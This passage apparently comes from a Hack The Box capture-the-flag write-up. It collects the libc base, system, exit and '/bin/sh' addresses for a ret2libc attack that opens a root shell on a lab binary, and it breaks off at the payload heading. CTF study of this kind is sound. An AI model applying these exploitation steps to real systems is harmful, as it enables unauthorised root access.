 ![gdb](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/frolic/gdb-peda.png)

Our goal is to gain an access to root shell, so we have to find a way to call the `system` function with `"/bin/sh"` as an argument. Here are the steps:

### Libc address

1. Get libc address (`0xb7e19000`) using `ldd`:

```bash
$ ldd rop
        linux-gate.so.1 =>  (0xb7fda000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e19000)
        /lib/ld-linux.so.2 (0xb7fdb000)
```

### `system` and `exit` addresses

2. Locate the addresses of `system` (`0x0003ada0`) and `exit` (`0x0002e9d0`) functions: 

```bash
$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -i system
   245: 00112f20    68 FUNC    GLOBAL DEFAULT   13 svcerr_systemerr@@GLIBC_2.0
   627: 0003ada0    55 FUNC    GLOBAL DEFAULT   13 __libc_system@@GLIBC_PRIVATE
  1457: 0003ada0    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0
```

```bash
$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -i exit
   112: 0002edc0    39 FUNC    GLOBAL DEFAULT   13 __cxa_at_quick_exit@@GLIBC_2.10
   141: 0002e9d0    31 FUNC    GLOBAL DEFAULT   13 exit@@GLIBC_2.0
   450: 0002edf0   197 FUNC    GLOBAL DEFAULT   13 __cxa_thread_atexit_impl@@GLIBC_2.18
   558: 000b07c8    24 FUNC    GLOBAL DEFAULT   13 _exit@@GLIBC_2.0
   616: 00115fa0    56 FUNC    GLOBAL DEFAULT   13 svc_exit@@GLIBC_2.0
   652: 0002eda0    31 FUNC    GLOBAL DEFAULT   13 quick_exit@@GLIBC_2.10
   876: 0002ebf0    85 FUNC    GLOBAL DEFAULT   13 __cxa_atexit@@GLIBC_2.1.3
  1046: 0011fb80    52 FUNC    GLOBAL DEFAULT   13 atexit@GLIBC_2.0
  1394: 001b2204     4 OBJECT  GLOBAL DEFAULT   33 argp_err_exit_status@@GLIBC_2.1
  1506: 000f3870    58 FUNC    GLOBAL DEFAULT   13 pthread_exit@@GLIBC_2.0
  1849: 000b07c8    24 FUNC    WEAK   DEFAULT   13 _Exit@@GLIBC_2.1.1
  2108: 001b2154     4 OBJECT  GLOBAL DEFAULT   33 obstack_exit_failure@@GLIBC_2.0
  2263: 0002e9f0    78 FUNC    WEAK   DEFAULT   13 on_exit@@GLIBC_2.0
  2406: 000f4c80     2 FUNC    GLOBAL DEFAULT   13 __cyg_profile_func_exit@@GLIBC_2.2
```

### `"/bin/sh"` address

3. Final thing, we need a strings that contains `"/bin/sh"` (`0x15ba0b`)

```bash
$ strings -atx /lib/i386-linux-gnu/libc.so.6 | grep -i "/bin/sh"
 15ba0b /bin/sh
```

### Payload
